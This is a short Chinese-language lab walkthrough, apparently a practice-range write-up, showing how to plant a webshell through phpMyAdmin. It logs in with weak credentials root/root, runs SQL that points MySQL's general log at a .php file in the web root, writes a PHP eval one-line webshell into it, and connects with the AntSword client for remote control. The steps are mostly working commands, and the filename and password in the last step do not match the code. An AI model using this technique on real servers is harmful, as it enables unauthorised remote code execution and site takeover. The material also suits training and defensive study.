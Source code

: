 ```yaml
---
title:  phpMyAdmin靶场复现
---
```




# SQL日志包含

## 1、在后台登陆管理员，运行sql查询，输入

> 弱密码 root root

![image-20220103212142075](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202201032121150.png)

```
Set global general_log='on';#开启日志

Set global general_log_file='绝对路径';#插入php文件。

Show variables like %general%;#查看系统变量值

Select'<?php eval($_POST['cmd']);?>’;#插入一句话木马

Set global general_log_file='绝对路径';#文件路径
```

```
Set global general_log='on';
Set global general_log_file='/Applications/phpstudy/web/phpMyAdmin/shell.php';
show variables like 'general_log_file';


Select "<?php eval($_POST['pass']);?>";
```





![image-20220103212919607](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202201032129697.png) 

## 2、利用蚁剑连接shell，输入网址/777.php，输入密码cmd，获取网站权限。

 

